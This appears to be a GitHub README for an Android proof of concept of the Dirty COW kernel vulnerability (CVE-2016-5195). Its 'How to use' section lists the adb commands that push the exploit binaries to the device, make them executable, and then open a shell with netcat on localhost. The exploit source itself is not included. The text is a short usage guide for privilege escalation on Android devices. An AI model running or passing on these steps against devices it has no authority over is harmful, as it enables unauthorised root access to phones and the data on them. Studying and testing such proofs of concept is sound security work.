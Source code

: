 # limited_shell_root

limited_shell_root CVE-2016-5195 (dirty cow/dirtycow/dirtyc0w) proof of concept for Android

How to use.

Once compiled

adb push dirtycow /data/local/tmp/dirtycow

adb push recowvery-app_process32 /data/local/tmp/recowvery-app_process32

adb shell chmod 0777 /data/local/tmp/*

adb shell
toybox nc localhost 11112

Shell is now active type ls
